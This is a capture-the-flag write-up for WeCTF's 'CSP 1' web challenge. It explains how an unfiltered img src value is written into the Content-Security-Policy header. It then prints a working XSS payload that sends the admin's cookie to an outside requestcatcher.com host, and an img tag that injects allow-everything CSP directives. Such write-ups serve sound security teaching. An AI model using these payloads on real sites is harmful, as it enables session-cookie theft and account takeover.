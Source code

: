 # [WeCTF](https://ctftime.org/event/1231)
## Task: CSP 1
##### Tags: `easy` `web`
From the description and name of the task we can understand that we will deal with [CSP](https://en.wikipedia.org/wiki/Content_Security_Policy) and XSS.

Also, from the description we know that "This challenge requires user interaction. Send your payload to uv.ctf.so Flag is in cookies of admin (Shou).", so we will make XSS and redirect his cookies to our server.
### Let's first check files of source code
```bash
❯ tree
.
├── app.py
├── Dockerfile
├── static
└── templates
    ├── display.html
    └── index.html
```
Basically, just one `app.py` file where we can see the rules of CSP.
```python
def filter_url(urls):
    domain_list = []
    for url in urls:
        domain = urllib.parse.urlparse(url).scheme + "://" + urllib.parse.urlparse(url).netloc
        if domain:
            domain_list.append(domain)
    return " ".join(domain_list)


@app.route('/display/<token>')
def display(token):
    user_obj = Post.select().where(Post.token == token)
    content = user_obj[-1].content if len(user_obj) > 0 else "Not Found"
    img_urls = [x['src'] for x in bs(content).find_all("img")]
    tmpl = render_template("display.html", content=content)
    resp = make_response(tmpl)
    resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
    return resp
```
`filter_url` adds img link to allowed image sources, `display` adds to each response CSP rules that disable everything. So with these rules will be not possible to execute js code to get cookies. But we can see that result of filter_url adds in headers directly and `filter_url` not filtering the source of an image. So we can add rules that will allow executing js on page.
I use [request catcher](https://requestcatcher.com/) as a server to get cookies. So, let's try:
```js
<script>document.write(document.cookie);document.write('<img src="https://somecooldomainforctf.requestcatcher.com/?cookie=' + document.cookie + '" />')</script>
```
But that's didn't work. It is because the img tag in js string and BeautifulSoup4 from the server do not parse it. So, we need to add img as html tag. I found [rules of CSP](https://stackoverflow.com/questions/35978863/allow-all-content-security-policy) that allow everything and simply concatenate it with my server url.
```html
<script>document.write(document.cookie);document.write('<img src="https://somecoolforctf.requestcatcher.com/?cookie=' + document.cookie + '" />')</script>
<img src="https://somecooldomainforctf.requestcatcher.com; default-src *  data: blob: filesystem: about: ws: wss: 'unsafe-inline' 'unsafe-eval' 'unsafe-dynamic'; script-src * data: blob: 'unsafe-inline' 'unsafe-eval'; connect-src * data: blob: 'unsafe-inline'; img-src * data: blob: 'unsafe-inline'; frame-src * data: blob: ; style-src * data: blob: 'unsafe-inline';font-src * data: blob: 'unsafe-inline';frame-ancestors * data: blob: 'unsafe-inline';#">
```
After submitting url of our page to checker (https://uv.ctf.so/), we get our flag for this task in the cookies of the request
